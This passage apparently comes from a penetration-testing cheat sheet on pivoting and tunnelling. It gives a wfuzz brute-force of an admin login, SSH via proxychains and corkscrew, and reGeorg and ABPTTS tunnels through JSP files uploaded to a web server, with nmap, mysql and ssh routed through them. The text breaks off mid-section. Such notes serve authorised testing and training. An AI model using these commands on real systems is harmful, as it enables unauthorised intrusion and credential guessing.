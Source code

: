 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
ssh john@127.0.0.1 -p 5555</pre>

<b>proxychains </b>

<pre>http 192.168.1.41 3128

proxychains ssh john@127.0.0.1</pre>

![proxychains](https://user-images.githubusercontent.com/7115563/33822522-1e15dbee-de58-11e7-9953-3da8ff684cfc.png)


<b>corkscrew </b>

<pre>ssh john@192.168.1.41 -t /bin/sh</pre>

![cork](https://user-images.githubusercontent.com/7115563/33822672-b92a51f0-de58-11e7-9936-06056b7903b8.png)


<a name="tcpoverhttp"></a><h3> TCP over HTTP </h3>

For this technique, it is necessary to be able to upload a file to a webserver.

<a name="regeorg"><b> 1. reGeorg </b>
  
  File upload to the server correct
  
  ![regeorge2](https://user-images.githubusercontent.com/7115563/33883424-028c9f0e-df3c-11e7-9559-b35667ae76db.png)
  
  Tunnel creation
  
  `python reGeorgSocksProxy.py -p 5555 -u "http://<ip>/admin/uploads/reGeorg.jsp"`
  
  Proxychains config
  
  ![regeorge1](https://user-images.githubusercontent.com/7115563/33883419-fcc15416-df3b-11e7-89a9-499ffc1de9cf.png)
  
  <pre>
proxychains nmap -F -sT 127.0.0.1
proxychains mysql -u root -p -h 127.0.0.1
proxychains ssh localhost
</pre>

![regeorge3](https://user-images.githubusercontent.com/7115563/33883422-017021fe-df3c-11e7-8f99-f02de5084c02.png)

Reference: https://sensepost.com/discover/tools/reGeorg/

 <a name="abptts"><b> 2. ABBTTS </b>
  
Upload File

![abbtts5](https://user-images.githubusercontent.com/7115563/33883774-6d249ffa-df3d-11e7-9f3f-68bf1e70465f.png)

Config proxychains and create the tunnel

```python abpttsclient.py -c tomcat_walkthrough/config.txt -u http://192.168.1.128/abptts.jsp -f 127.0.0.1:22222/127.0.0.1:22```

Usage
```